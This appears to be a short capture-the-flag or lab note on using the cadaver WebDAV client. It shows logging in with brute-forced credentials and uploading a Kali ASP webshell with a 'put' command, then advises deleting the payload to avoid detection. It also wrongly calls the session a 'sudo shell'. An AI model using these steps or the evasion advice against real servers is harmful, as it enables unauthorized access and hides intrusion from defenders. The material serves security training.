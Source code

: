 #### ***:LiGithub:GitHub link:***  https://github.com/grimneko/cadaver
### cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.
- Pre-installed on most offensive pentesting ditros like Kali & Parrot.

#### ***Command template***: `cadaver http://<ip>/<directory_of_login_page>/`
#### ***Command Example:*** `cadaver http://10.2.29.97/webdav/`
After entering the username & password we got from Bruteforce with Hydra check [[04-WebDAV (80,443)]] 
This command will provide us with a sudo shell to the /webdav/ directory and from there we can upload a [[webshell]] from our machine to this server machine......###COOL 

#### **To Upload a file:*** Use put then the path to the file==>`put /usr/share/webshells/asp/webshell.asp`



![[webdav.asp_execute.png | 1000]]

### The FLAG:
![[commands in webdav.png| 600]]


## **<mark style="background: #e74c3c;">Important:</mark> You should delete the payload after gaining access to avoid detection**